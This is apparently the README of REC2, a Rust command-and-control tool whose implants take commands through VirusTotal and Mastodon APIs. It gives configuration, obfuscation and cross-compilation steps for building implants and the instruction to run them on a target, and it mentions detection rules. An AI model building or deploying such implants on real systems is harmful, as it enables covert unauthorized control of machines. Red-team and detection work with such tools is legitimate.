



> :shipit: **Information:** REC2 is an old personal project (*early 2023*) that I didn't continue development on. It's part of a list of projects that helped me to learn Rust. The code is probably considered obsolete and not in its best form. Maybe I'll pick up where I left off [#roadmap](#vertical_traffic_light-roadmap). However, **REC2 is fully functional** and allow to execute commands on a Linux / macOS or Windows target **from the VirusTotal and Mastodon APIs**.

# REC2 (Rusty External C2)

<p align="center">
  
  
  
  
  <a href="https://twitter.com/intent/follow?screen_name=g0h4n_0" title="Follow" rel="nofollow"></a>
</p>

<p align="center">

</p>

> ⚠️ **Disclaimer**: 
> REC2 is for educational purposes only. Use this at your own discretion, I cannot be held responsible for any damages caused.
> Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state and federal laws. I assume no liability and are not responsible for any misuse or damage caused by this tool.

:red_circle: **Redteamer**: I share with you a beta version of one of my external C2 using virustotal and mastodon

:large_blue_circle: **Blueteamer**: You can find an example of yara rules for REC2 implants in this same repo


# :abacus: Summary

- [Description](#label-description)
- [Usage and Demo](#tv-usage-and-demo)
- [How to compile it?](#tractor-how-to-compile-it)
  - [Using Makefile](#using-makefile)
  - [Using Dockerfile](#using-dockerfile)
- [Roadmap](#vertical_traffic_light-roadmap)
- [Links](#link-links)


# :label: Description

**R**usty **E**xternal **C**ommand and **C**ontrol client implant and server c2 written in Rust using **Mastodon** and **VirusTotal** API.

<p align="center">

</p>

# :tv: Usage and Demo

 

Change some values in **implants/(mastodon,virustotal)/src/main.rs** : 

```rust
// (MASTODON or VIRUSTOTAL) TOKEN 
// <https://mastodon.be/settings/applications>
// <https://developers.virustotal.com/reference/authentication>
let token = lc!("TOKEN").to_owned();
// (MASTODON or VIRUSTOTAL) FULL URL
//let full_url = lc!("https://mastodon.xx/@username/100123451234512345").to_owned();
let full_url = lc!("https://www.virustotal.com/gui/file/99ff0b679081cdca00eb27c5be5fd9428f1a7cf781cc438b937cf8baf8551c4d").to_owned();
```

Make **Windows x64 implant** static binary: 

```bash
make virustotal_windows
make mastodon_windows
```

You can find (**rec2_virustotal_x64.exe** or **rec2_mastodon_x64.exe**) in your current directory.

**And to finish**, compile the **server** binary:

```bash
make c2server_release
./server_release -h
./server_release VirusTotal -h
./server_release Mastodon -h

# Example
./server_release VirusTotal --url <URL> --token <TOKEN> --key <AES_KEY>
```

Now you just need to execute implant in your target.

# :tractor: How to compile it?

## Using Makefile

You can use the **make** command to compile it for Linux, Windows or mac0S.

More command in the **Makefile**:

```bash
REC2 Server:
usage: make c2server_debug
usage: make c2server_release
usage: make c2server_windows
usage: make c2server_windows_x64
usage: make c2server_windows_x86
usage: make c2server_linux
usage: make c2server_linux_aarch64
usage: make c2server_linux_x86_64
usage: make c2server_macos
usage: make c2server_arm_musl
usage: make c2server_armv7

VirusTotal implant:
usage: make virustotal_debug
usage: make virustotal_release
usage: make virustotal_windows
usage: make virustotal_windows_x64
usage: make virustotal_windows_x86
usage: make virustotal_linux
usage: make virustotal_linux_aarch64
usage: make virustotal_linux_x86_64
usage: make virustotal_macos
usage: make virustotal_arm_musl
usage: make virustotal_armv7

Mastodon implant:
usage: make mastodon_debug
usage: make mastodon_release
usage: make mastodon_windows
usage: make mastodon_windows_x64
usage: make mastodon_windows_x86
usage: make mastodon_linux
usage: make mastodon_linux_aarch64
usage: make mastodon_linux_x86_64
usage: make mastodon_macos
usage: make mastodon_arm_musl
usage: make mastodon_armv7

Dependencies:
usage: make install_windows_deps
usage: make install_macos_deps

Documentation:
usage: make c2server_doc
usage: make virustotal_doc
usage: make mastodon_doc

Cleaning:
usage: make clean
```


## Using Dockerfile

Build REC2 with docker to make sure to have all dependencies.

```bash
docker build --rm -t rec2 .

# Then to build C2 server:
docker run --rm -v ./:/usr/src/rec2 rec2 c2server_windows
docker run --rm -v ./:/usr/src/rec2 rec2 c2server_linux
docker run --rm -v ./:/usr/src/rec2 rec2 c2server_macos


# Then to build VirusTotal implant:
docker run --rm -v ./:/usr/src/rec2 rec2 virustotal_windows
docker run --rm -v ./:/usr/src/rec2 rec2 virustotal_linux
docker run --rm -v ./:/usr/src/rec2 rec2 virustotal_macos

# Then to build Mastodon implant:
docker run --rm -v ./:/usr/src/rec2 rec2 mastodon_windows
docker run --rm -v ./:/usr/src/rec2 rec2 mastodon_linux
docker run --rm -v ./:/usr/src/rec2 rec2 mastodon_macos
```

<details><summary><b>SHOW MORE</b></summary>

## Using Cargo

You will need to install Rust on your system.

[https://www.rust-lang.org/fr/tools/install](https://www.rust-lang.org/fr/tools/install)

> :warining: You need to export ```LITCRYPT_ENCRYPT_KEY``` variable in your terminal before to compile it. (for implants strings obfuscation)

```bash
export LITCRYPT_ENCRYPT_KEY="MYSUPERPASSWORD1234567890"
LITCRYPT_ENCRYPT_KEY="MYSUPERPASSWORD1234567890"
```

> :warining: You need to change AESKEY in **implants/(virustotal,mastodon)/main.rs** and to change URL and TOKEN.

Here is how to compile the "**release**" and "**debug**" versions using the **cargo** command.

```bash
git clone https://github.com/g0h4n/REC2
cd REC2

# Implants
# choise your implant Mastodon or VirusTotal

# implants/mastodon/Cargo.toml
# release version
cargo build --release --manifest --manifest-path implants/mastodon/Cargo.toml
# or debug version
cargo b --manifest-path implants/mastodon/Cargo.toml

# implants/virustotal/Cargo.toml
# release version
cargo build --release --manifest --manifest-path implants/virustotal/Cargo.toml
# or debug version
cargo b --manifest-path implants/virustotal/Cargo.toml

# Server
cargo build --release --manifest --manifest-path server/Cargo.toml
# or debug version
cargo b --manifest-path server/Cargo.toml
```

The **Implants** result can be found in the **implants/(mastodon,virustotal)/target/release** or in the **implants/(mastodon,virustotal)/target/debug** folder. The **server** result can be found in the **server/target/release** or in the **server/target/debug** folder.

Below you can find the compilation methodology for each of the OS from Linux.
If you need another compilation system, please consult the list in this link: [https://doc.rust-lang.org/nightly/rustc/platform-support.html](https://doc.rust-lang.org/nightly/rustc/platform-support.html)


## Manually for Linux x86_64 static version

```bash
# Install rustup and Cargo for Linux
curl https://sh.rustup.rs -sSf | sh

# Add Linux deps
rustup install stable-x86_64-unknown-linux-gnu
rustup target add x86_64-unknown-linux-gnu

# Static compilation for Linux
git clone https://github.com/g0h4n/REC2
cd REC2

# Implants
# choise your implant Mastodon or VirusTotal

# implants/mastodon/Cargo.toml
CFLAGS="-lrt";LDFLAGS="-lrt";RUSTFLAGS='-C target-feature=+crt-static';cargo build --release --target x86_64-unknown-linux-gnu --manifest-path implants/mastodon/Cargo.toml

# implants/virustotal/Cargo.toml
CFLAGS="-lrt";LDFLAGS="-lrt";RUSTFLAGS='-C target-feature=+crt-static';cargo build --release --target x86_64-unknown-linux-gnu --manifest-path implants/virustotal/Cargo.toml

# Server
CFLAGS="-lrt";LDFLAGS="-lrt";RUSTFLAGS='-C target-feature=+crt-static';cargo build --release --target x86_64-unknown-linux-gnu --manifest-path server/Cargo.toml
```

The result can be found in the **implants/(mastodon,virustotal)/target/x86_64-unknown-linux-gnu/release** or in **server/target/x86_64-unknown-linux-gnu/release** folder.


## Manually for Windows static version from Linux
```bash
# Install rustup and Cargo in Linux
curl https://sh.rustup.rs -sSf | sh

# Add Windows deps
rustup install stable-x86_64-pc-windows-gnu
rustup target add x86_64-pc-windows-gnu

# Static compilation for Windows
git clone https://github.com/g0h4n/REC2
cd REC2

# Implants
# choise your implant Mastodon or VirusTotal

# implants/mastodon/Cargo.toml
RUSTFLAGS="-C target-feature=+crt-static" cargo build --release --target x86_64-pc-windows-gnu --manifest-path implants/mastodon/Cargo.toml

# implants/virustotal/Cargo.toml
RUSTFLAGS="-C target-feature=+crt-static" cargo build --release --target x86_64-pc-windows-gnu --manifest-path implants/virustotal/Cargo.toml

# Server
RUSTFLAGS="-C target-feature=+crt-static" cargo build --release --target x86_64-pc-windows-gnu --manifest-path server/Cargo.toml
```

The result can be found in the **implants/(mastodon,virustotal)/target/x86_64-pc-windows-gnu/release** or in the **server/target/x86_64-pc-windows-gnu/release** folder.

## Manually for macOS static version from Linux

Amazing documentation: [https://wapl.es/rust/2019/02/17/rust-cross-compile-linux-to-macos.html](https://wapl.es/rust/2019/02/17/rust-cross-compile-linux-to-macos.html)

```bash
# Install rustup and Cargo in Linux
curl https://sh.rustup.rs -sSf | sh

# Add macOS tool chain
sudo git clone https://github.com/tpoechtrager/osxcross /usr/local/bin/osxcross
sudo wget -P /usr/local/bin/osxcross/ -nc https://s3.dockerproject.org/darwin/v2/MacOSX10.10.sdk.tar.xz && sudo mv /usr/local/bin/osxcross/MacOSX10.10.sdk.tar.xz /usr/local/bin/osxcross/tarballs/
sudo UNATTENDED=yes OSX_VERSION_MIN=10.7 /usr/local/bin/osxcross/build.sh
sudo chmod 775 /usr/local/bin/osxcross/ -R
export PATH="/usr/local/bin/osxcross/target/bin:$PATH"

# Cargo needs to be told to use the correct linker for the x86_64-apple-darwin target, so add the following to your project’s .cargo/config file:
grep 'target.x86_64-apple-darwin' ~/.cargo/config || echo "[target.x86_64-apple-darwin]" >> ~/.cargo/config
grep 'linker = "x86_64-apple-darwin14-clang"' ~/.cargo/config || echo 'linker = "x86_64-apple-darwin14-clang"' >> ~/.cargo/config
grep 'ar = "x86_64-apple-darwin14-clang"' ~/.cargo/config || echo 'ar = "x86_64-apple-darwin14-clang"' >> ~/.cargo/config

# Static compilation for macOS
git clone https://github.com/g0h4n/REC2
cd REC2

# Implants
# choise your implant Mastodon or VirusTotal

# implants/mastodon/Cargo.toml
RUSTFLAGS="-C target-feature=+crt-static" cargo build --release --target x86_64-apple-darwin --manifest-path implants/mastodon/Cargo.toml

# implants/virustotal/Cargo.toml
RUSTFLAGS="-C target-feature=+crt-static" cargo build --release --target x86_64-apple-darwin --manifest-path implants/virustotal/Cargo.toml

# Server
RUSTFLAGS="-C target-feature=+crt-static" cargo build --release --target x86_64-apple-darwin --manifest-path server/Cargo.toml
```

The result can be found in the implants/(mastodon,virustotal)/target/x86_64-apple-darwin/release folder.

## How to build the documentation?

```bash
git clone https://github.com/g0h4n/REC2
cd REC2

# Implants
# choise your implant Mastodon or VirusTotal

# implants/mastodon/Cargo.toml
cargo doc --open --no-deps --manifest-path implants/mastodon/Cargo.toml

# implants/virustotal/Cargo.toml
cargo doc --open --no-deps --manifest-path implants/virustotal/Cargo.toml

# Server
cargo doc --open --no-deps --manifest-path server/Cargo.toml
```
</details>

# :vertical_traffic_light: Roadmap

- CRYPTO
    - [x] AES
- IMPLANTS
    - [x] IMPLANTS
- SERVER
    - [x] SESSION
    - [x] JOBS
    - [ ] Asynchrone jobs status check function
    - [ ] Asynchrone sessions status check function
    - [x] Select current sessions with `sessions -i 1`` to attach session number 1 [09/28/2023]
    - [x] Add `background` command [09/28/2023]
- SOCIAL NETWORK
    - [x] MASTODON: [https://docs.rs/megalodon/latest/megalodon/](https://docs.rs/megalodon/latest/megalodon/)
    - [x] VIRUSTOTAL: [https://docs.rs/virustotal3/latest/virustotal3/](https://docs.rs/virustotal3/latest/virustotal3/)
    - [ ] SOUNDCLOUD: [https://docs.rs/soundcloud/latest/soundcloud/](https://docs.rs/soundcloud/latest/soundcloud/)
    - [ ] Some ideas?

# :link: Links

- [https://github.com/D1rkMtr/VirusTotalC2](https://github.com/D1rkMtr/VirusTotalC2)